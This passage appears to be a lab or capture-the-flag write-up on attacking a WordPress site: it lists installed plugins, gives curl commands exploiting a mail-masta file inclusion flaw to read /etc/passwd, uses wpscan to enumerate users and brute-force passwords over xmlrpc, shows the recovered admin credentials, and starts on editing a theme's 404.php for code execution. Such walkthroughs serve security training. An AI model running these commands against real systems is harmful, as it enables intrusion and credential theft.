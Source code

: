 * WordPress (5.1.6)
* mail-masta (1.0)
* photo-gallery (1.5.34)
* wp-google-places-review-slider (6.1)

There is an exploit for mail-masta : [40290](https://www.exploit-db.com/exploits/40290).

```bash
curl http://167.172.57.150:30878/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
curl http://167.172.57.150:30878/wp-content/plugins/mail-masta/inc/lists/csvexport.php?pl=/etc/passwd
```

### User Bruteforce

List all users on WordPress :

```bash
wpscan --enumerate u --url http://167.172.57.150:31546
```

And you get `admin`, `david` and `roger`. To bruteforce the user password, you must use `--password-attack xmlrpc` to attempt to login with the xmlrpc method.

```bash
wpscan --url http://167.172.57.150:31546 --password-attack xmlrpc -t 20 -U admin,david -P /usr/share/wordlists/rockyou.txt
```

The credentials are `admin:sunshine1`

**Attacking the WordPress backend**

Connect with the admin credentials `admin:sunshine1` and update the file `404.php` on the theme`Twenty Seventeen`.

<figure><img src="../../.gitbook/assets/theme-editor.png" alt=""><figcaption></figcaption></figure>
